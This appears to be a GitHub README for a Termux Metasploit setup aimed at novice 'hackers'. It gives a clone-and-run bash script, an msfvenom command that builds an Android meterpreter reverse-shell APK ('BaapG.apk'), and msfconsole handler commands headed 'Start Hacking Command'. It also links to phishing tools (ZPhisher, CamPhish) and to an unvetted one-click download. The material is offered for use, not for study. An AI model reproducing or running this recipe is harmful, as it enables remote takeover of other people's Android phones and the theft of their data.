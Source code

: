 # Metasploit


     Metasploit All Command👇

     git clone https://github.com/Vretlee/Metasploit
     cd Metasploit
     bash Exploit.sh

----------------------------------------------------------------------------------------------------------------------------------
Make Payload👇
----------------------------------------------------------------------------------------------------------------------------------

     msfvenom -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -a dalvik --platform android R > /sdcard/BaapG.apk
----------------------------------------------------------------------------------------------------------------------------------
Start Hacking Command👇
----------------------------------------------------------------------------------------------------------------------------------

     msfconsole
     use exploit/multi/handler
     set payload android/meterpreter/reverse_tcp
     set LHOST 127.0.0.1
     set LPORT 4444
     exploit

     Follow Me @krish_na_2568 ☝


Metasploit
<a href="https://www.mediafire.com/download/uga6en3n3dwya8e">Install Metasploit Only One Click</a>
<a href="https://github.com/Vretlee/ZPhisher"><img title="" src="https://raw.githubusercontent.com/T-Dynamos/Metasploit/main/368-3682149_this-metasploit-logo.png" data-canonical-src="https://github-readme-stats.vercel.app/api/pin/?username=noob-hackers&amp;repo=ipdrone&amp;theme=highcontrast" style="max-width:100%;"></a>
<a href="https://github.com/Vretlee"><img title="" src="https://camo.githubusercontent.com/abb97269de2982c379cbc128bba93ba724d8822bfbe082737772bd4feb59cb54/68747470733a2f2f63646e2e7261776769742e636f6d2f73696e647265736f726875732f617765736f6d652f643733303566333864323966656437386661383536353265336136336531353464643865383832392f6d656469612f62616467652e737667" data-canonical-src="https://github-readme-stats.vercel.app/api/pin/?username=noob-hackers&amp;repo=ipdrone&amp;theme=highcontrast" style="max-width:100%;"></a>
<a href="https://github.com/Vretlee/Love"><img title="" src="https://camo.githubusercontent.com/deab10366c6377e3d4cc454a26f96225e2cc196214b129b95c9d5284207b64d7/68747470733a2f2f696d672e736869656c64732e696f2f7374617469632f76313f6c6162656c3d254630253946253843253946266d6573736167653d496625323055736566756c267374796c653d7374796c653d666c617426636f6c6f723d424334453939" data-canonical-src="https://github-readme-stats.vercel.app/api/pin/?username=noob-hackers&amp;repo=ipdrone&amp;theme=highcontrast" style="max-width:100%;"></a>
<a href="https://github.com/Vretlee/Metasploit/issues"><img title="" src="https://camo.githubusercontent.com/d2ce71b866adc34cea6d0b44c145414ffa4b3413670aa50d03fadeae3c2fe5b0/68747470733a2f2f696d672e736869656c64732e696f2f6769746875622f6973737565732f616268697368656b6e61696964752f617765736f6d652d6769746875622d70726f66696c652d726561646d65" data-canonical-src="https://github-readme-stats.vercel.app/api/pin/?username=noob-hackers&amp;repo=ipdrone&amp;theme=highcontrast" style="max-width:100%;"></a>
<a href="This Tool Coming Soon. Only Short Commond"><img title="" src="https://camo.githubusercontent.com/90ed75bedb127d286843190584a8e2a965c1b80d9d92243564fc563f67e72691/68747470733a2f2f696d672e736869656c64732e696f2f62616467652f4e657448756e7465722de29c942d7265642e7376673f7374796c653d706c6173746963" data-canonical-src="https://github-readme-stats.vercel.app/api/pin/?username=noob-hackers&amp;repo=ipdrone&amp;theme=highcontrast" style="max-width:100%;"></a>
</p>


<a href="https://github.com/Vretlee/ZPhisher"><img title="" src="https://camo.githubusercontent.com/bad647b76b8e2bcbcc96dbcc24187f488fd88d6f54157ea9b6c69061dce907c9/68747470733a2f2f6d656469612e67697068792e636f6d2f6d656469612f64786e3666526c544953686f65427236394e2f67697068792e676966" data-canonical-src="https://github-readme-stats.vercel.app/api/pin/?username=noob-hackers&amp;repo=ipdrone&amp;theme=highcontrast" style="max-width:100%;"></a>
<a href="https://t.me/Rajputana50"><img title="" src="https://camo.githubusercontent.com/7253c590cd003e0818446456c477ae10ae62ba19b7788bd640241f2920b7f916/68747470733a2f2f696d672e736869656c64732e696f2f62616467652f4275696c74253230776974682d2545322539442541342d6f72616e67652e7376673f7374796c653d666c61742d737175617265" data-canonical-src="https://github-readme-stats.vercel.app/api/pin/?username=noob-hackers&amp;repo=ipdrone&amp;theme=highcontrast" style="max-width:100%;"></a>
<a href="https://www.jairajputana.com"><img title="" src="https://camo.githubusercontent.com/5bd9180b0bfaaf62a463a4ee9691a3a74c82b6ca131f08c53e3a79f31984db3b/68747470733a2f2f696d672e736869656c64732e696f2f62616467652f4d616465253230776974682d507974686f6e2d7265642e7376673f7374796c653d666c61742d737175617265" data-canonical-src="https://github-readme-stats.vercel.app/api/pin/?username=noob-hackers&amp;repo=ipdrone&amp;theme=highcontrast" style="max-width:100%;"></a>
<a href="https://twitter.com/Jairajputana501?s=09"><img title="" src="https://camo.githubusercontent.com/62203bd0ea689c58dff8398a21b7a1ac677c152bfa707490ea991c9fa3c09282/68747470733a2f2f696d672e736869656c64732e696f2f62616467652f4a6f696e2d536c61636b2d696e666f726d6174696f6e616c3f7374796c653d666c61742d737175617265266c6f676f3d736c61636b" data-canonical-src="https://github-readme-stats.vercel.app/api/pin/?username=noob-hackers&amp;repo=ipdrone&amp;theme=highcontrast" style="max-width:100%;"></a>
</p>



# T-Dynamos

All Credit :- <a href="https://github.com/T-Dynamos/Metasploit">Ansh Dadwal</a>


<a href="https://github.com/Vretlee/ZPhisher"><img title="" src="https://github.com/T-Dynamos/Metasploit/raw/main/Screenshot_2021-07-12-10-49-33-340_com.termux.jpg" data-canonical-src="https://github-readme-stats.vercel.app/api/pin/?username=noob-hackers&amp;repo=ipdrone&amp;theme=highcontrast" style="max-width:100%;"></a>
<a href="https://github.com/Vretlee/CamPhish"><img title="" src="https://github.com/Vretlee/Metasploit/blob/main/Screenshot_2021-07-29-12-30-45-215_com.termux.jpg" data-canonical-src="https://github-readme-stats.vercel.app/api/pin/?username=noob-hackers&amp;repo=ipdrone&amp;theme=highcontrast" style="max-width:100%;"></a>
</p>

# Rawan BaapG
<a href="https://github.com/Vretlee/CamPhish"><img title="" src="https://repository-images.githubusercontent.com/75691232/54b4ff00-65d8-11e9-8eee-9b11692cb431" data-canonical-src="https://github-readme-stats.vercel.app/api/pin/?username=noob-hackers&amp;repo=ipdrone&amp;theme=highcontrast" style="max-width:100%;"></a>
</p>

